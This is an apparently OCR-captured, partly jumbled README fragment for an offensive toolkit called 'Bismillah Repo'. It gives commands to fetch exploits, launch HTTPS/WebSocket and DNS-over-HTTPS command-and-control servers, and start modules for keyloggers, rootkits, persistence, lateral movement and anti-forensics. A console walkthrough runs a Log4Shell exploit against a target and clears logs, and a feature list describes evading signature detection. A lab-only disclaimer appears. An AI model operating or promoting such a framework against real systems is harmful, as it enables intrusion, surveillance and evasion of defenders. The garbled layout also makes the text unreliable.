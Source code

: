    ```bash
python3 - <<EOF
from modules.exploit_manager import ExploitManager
mgr = ExploitManager()
print("Indexed exploits:", mgr.list_exploits())
new = mgr.fetch_latest_exploits()
print("Fetched new exploits:", new)
EOF

bash
Copy
Edit

5. **Launch C2 Servers**  
```bash
# Terminal 1: HTTPS + WebSocket C2
python3 tools/c2_server.py

# Terminal 2: DNS + DoH C2
python3 tools/dns_c2_server.py
Start the Framework

bash
Copy
Edit
cd /opt/bismillah_repo
python3 bismillah.py
This spawns anti-forensics, keylogger, recon, lateral, persistence, post-exploit, AI-C2 loops, rootkit, etc.

Interactive Console

text
Copy
Edit
Bismillah> list_exploits
Bismillah> run_exploit cve_2021_44228_log4shell target.com
Bismillah> show_tasks
Bismillah> clear_logs
Bismillah> quit
Verify No Zero-Byte Files

bash
Copy
Edit
find . -type f -size 0
# Should return nothing.
# Bismillah Repo: Multi‐Platform Offensive Toolkit (v3.0)

> **Disclaimer:** This framework is strictly for research and red‐team use in isolated labs. Do **NOT** use against systems without explicit permission.

---

## Overview

**bismillah_repo/** has been upgraded to v3.0, featuring:

1. **Even Stronger C2**  
   - HTTPS + WebSockets (AES‐GCM encryption)  
   - DNS/TXT + DNS‐over‐HTTPS (DoH) + DNS tunneling fallback (TXT over fragmented subdomains)  
   - Automatic subdomain rotation and pseudo‐random jitter on each beacon to thwart signature‐based detection.  
   ```